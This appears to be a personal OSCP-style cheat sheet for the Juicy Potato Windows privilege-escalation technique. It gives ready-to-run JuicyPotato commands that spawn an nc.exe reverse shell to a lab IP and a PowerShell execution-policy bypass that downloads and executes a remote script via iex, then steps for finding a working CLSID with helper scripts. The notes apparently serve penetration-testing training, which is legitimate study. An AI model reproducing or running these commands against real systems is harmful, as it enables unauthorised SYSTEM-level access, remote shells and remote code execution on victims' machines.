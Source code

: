 # Juicy Potato Priv Esc

1. Execute JuicyPotato.exe to see if default CLSID will work

- Calling back using nc reverse shell:
`c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *`

- Calling back using powershell reverse shell:
`.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *`

2. Default CLSID Not working:

a. If Default Doesnt run, use the `GetCLSID.ps1` and `join-object.ps1` scripts from `Scripts/OSCP/Win_Enum/Priv_Esc_Method`

   - Load `join-object.ps1` into the powershell session using:
     `import-module join-object.ps1`
    
   - Execute `GetCLSID.ps1` using:
     `.\GetCLSID.ps1`

b. download the `test_clsid.bat` and configure the following before execution:
   - Change the path to the `CLSID.list` variable
     
   - execute the .bat file
     
   - when the port number changes, it signifies a working CLSID

c. Test CLSID with JuicyPotato command. 
